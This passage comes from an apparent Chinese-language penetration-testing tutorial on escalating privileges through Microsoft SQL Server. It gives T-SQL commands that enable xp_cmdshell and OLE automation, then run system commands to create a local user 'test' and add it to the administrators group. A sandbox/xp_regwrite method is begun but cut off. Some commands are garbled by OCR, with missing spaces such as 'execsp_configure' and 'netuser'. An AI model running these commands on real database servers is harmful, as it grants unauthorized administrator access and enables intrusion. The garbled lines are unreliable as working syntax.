 开启 xp_cmdshell  

```
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell',1;reconfigure;
```

关闭 xp_cmdshell  

```
execsp_configure 'show advanced options', 1;reconfigure;
execsp_configure 'xp_cmdshell', 0;reconfigure
```

提权  

```
exec master..xp_cmdshell 'net user test qwea123. /add'    添加用户test，密码test
exec master..xp_cmdshell 'net localgroup administrators test add'   添加test用户到管理员组
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibboYFrBprPic8v3EDicxN1MNmhMAd4CI7bVOw7rB5df64PahJghxiaV4fg/640?wx_fmt=png)

##### sp_oacreate 提权

sp_oacreate 提权主要调用了 OLE 对象的 run 方法执行了系统命令。Mssql 之后的版本先要开启。

开启

```
execsp_configure 'show advanced options',1;reconfigure;
execsp_configure 'ole automation procedures',1; reconfigure;
```

关闭

```
execsp_configure 'show advanced options',1;reconfigure;
execsp_configure 'ole automation procedures',0;reconfigure;
execsp_configure 'show advanced options',0;reconfig
```

ure;  

执行命令

```
declare@shell int
execsp_oacreate 'wscript.shell', @shell output
execsp_method @shell, 'run' , null, 'c:\windows\system32\cmd.exe /c "netuser test qwea123. /add" '
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LiboXqYlMicWEBGp4nOR00M9mVpHg3O99gIdxQtltyAc3rSRic1tj61jNicQ/640?wx_fmt=png)

##### 沙盒提权：

```
execsp_configure 'show advanced options',1;reconfigure;
```

-- 不开启的话在执行 xp_regwrite 会提示让我们开启，
